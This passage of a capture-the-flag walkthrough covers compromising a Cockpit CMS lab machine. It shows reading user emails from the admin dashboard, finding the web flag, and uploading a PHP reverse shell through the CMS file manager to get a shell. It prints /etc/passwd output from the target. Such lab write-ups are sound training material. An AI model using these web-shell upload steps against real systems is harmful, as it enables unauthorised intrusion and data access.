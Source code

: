 In the admin dashboard, we can go to account settings (http://MACHINE-IP/accounts/account), then choose "Accounts" in the breadcrumb at the top of the page. Here we see the emails for all the users, including Skidy's as well.

> Q6: Compromise the Content Management System (CMS). What is Skidy's email.
> A6:  s$$$y@t$$$$$$$e.f$$$$$il

> Q7: What is the web flag?
> A7: $CENSORED$

To find the web flag, click on banner aka Cockpit logo -> Finder. The flag is in one of the files.

Since this is a CMS, we should be able to upload a PHP reverse shell file. Use the same Finder menu that we used earlier to upload it. On a Kali machine, you can find it at `/usr/share/webshells/php/`

I uploaded it to `/storage/uploads/` and accessed it at `http://machine-ip/storage/uploads/evilshell.php`

We have the reverse shell. Contents of `/etc/passwd`
```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
stux:x:1000:1000:Coock,,,:/home/stux:/bin/bash
sshd:x:108:65534::/var/run/sshd:/usr/sbin/nologin
mongodb:x:109:65534::/var/lib/mongodb:/bin/false
clamav:x:110:118::/var/lib/clamav:/bin/false
debian-spamd:x:111:119::/var/lib/spamassassin:/bin/sh
opensmtpd:x:112:120:OpenSMTD Daemon,,,:/var/lib/opensmtpd/empty:/bin/false
opensmtpq:x:113:121:OpenSMTD queue user,,,:/var/lib/opensmtpd/empty:/bin/false
www-data@ubuntu:/$ cat /etc/login.defs | grep UID
UID_MIN                  1000
UID_MAX                 60000
```
